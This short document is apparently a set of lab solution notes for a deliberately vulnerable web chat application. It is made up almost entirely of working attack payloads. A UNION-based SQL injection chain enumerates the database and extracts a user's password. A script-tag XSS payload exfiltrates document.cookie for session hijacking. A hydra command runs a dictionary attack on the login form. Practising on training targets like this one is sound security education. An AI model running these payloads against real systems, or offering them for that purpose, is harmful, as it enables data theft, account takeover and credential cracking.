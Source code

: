 # SQL-Injection Advanced

information_schema: table_schema, table_name

' OR 1=1 UNION SELECT table_schema FROM information_schema.tables -- 
-> dvwc

' OR 1=1 UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'dvwc' -- 
-> Chatrooms, PoMessages, Users

' OR 1=1 UNION SELECT column_name FROM information_schema.columns WHERE table_name = 'Users' -- 
-> id, surname, prename, birthday, username, pwd, createdAt, updatedAt

' OR 1=1 UNION SELECT pwd FROM Users WHERE username = 'unionguy' -- 
-> sQL-iNJeCtion4EvERYonE


# XSS Session hijacking

<script>$.ajax({type: "GET", url: "http://dvwc.el.eee.intern/pomessage?message=" + document.cookie + "&from=alice&to=admin", success: (result) => {}});</script>

# Username Enumeration dictionary attack

hydra dvwc.el.eee.intern -V -l urs -P /usr/share/dirb/wordlists/small.txt http-post-form "/login/:username=^USER^&pwd=^PASS^:F=korrekt"
